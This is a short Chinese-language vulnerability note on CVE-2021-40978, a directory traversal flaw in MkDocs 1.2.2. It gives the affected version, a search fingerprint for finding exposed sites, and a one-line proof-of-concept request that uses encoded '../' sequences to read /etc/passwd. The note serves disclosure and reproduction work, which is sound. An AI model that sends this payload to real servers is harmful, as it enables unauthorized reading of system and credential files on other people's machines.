


# MKdocs 任意文件读取漏洞 CVE-2021-40978

## 漏洞描述

MKdocs中存在通过 %2e%2e 来遍历目录，读取敏感文件

## 漏洞影响

<a-checkbox checked>Mkdocs 1.2.2</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="My Docs"</a-checkbox></br>

## 漏洞复现

主页面



验证POC

```php
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

